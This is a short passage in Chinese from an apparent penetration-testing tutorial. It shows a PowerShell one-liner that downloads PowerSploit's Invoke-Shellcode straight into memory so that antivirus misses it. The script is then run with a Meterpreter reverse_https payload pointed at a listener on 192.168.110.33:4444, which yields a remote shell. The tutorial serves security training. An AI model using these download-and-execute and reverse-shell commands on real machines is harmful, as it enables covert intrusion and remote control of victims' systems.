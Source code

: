 1.  这里的技巧是下载一个 PowerShell 脚本并将其加载到内存中，因为它从未保存在硬盘上，所以杀毒软件不会检测到它。

1.  我们首先检查 PowerShell 是否已安装，运行`powershell`：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/b53aad5b-05ae-465e-a69a-5f0ce4a0fed5.png)

1.  我们将使用这个命令。使用单引号很重要；否则，我们可能会得到一个缺少括号的错误：

```
 powershell IEX (New-Object Net.WebClient).DownloadString
      ('https://raw.githubusercontent.com/PowerShellMafia/
      PowerSploit/master/CodeExecution/Invoke-Shellcode.ps1')
```

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/4d7c0558-ad8f-413e-b3ff-cfcea063b805.png)

1.  我们不应该看到任何错误。现在我们的脚本已经准备好了，我们调用模块并使用以下命令查看帮助：

```
 Get-Help Invoke-Shellcode
```

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/2757b763-17ef-4760-abee-66ab407f67ca.png)

1.  现在我们运行该模块：

```
 powershell Invoke-Shellcode -Payload
      windows/meterpreter/reverse_https -Lhost 192.168.110.33
      -Lport 4444 –Force
```

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/116bd076-38a2-4350-9eca-30768454a207.png)

1.  在运行上述脚本之前，我们启动我们的处理程序。

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/9913d29d-37d8-420b-841c-f5dfca462aca.png)

1.  我们现在应该有一个 meterpreter。

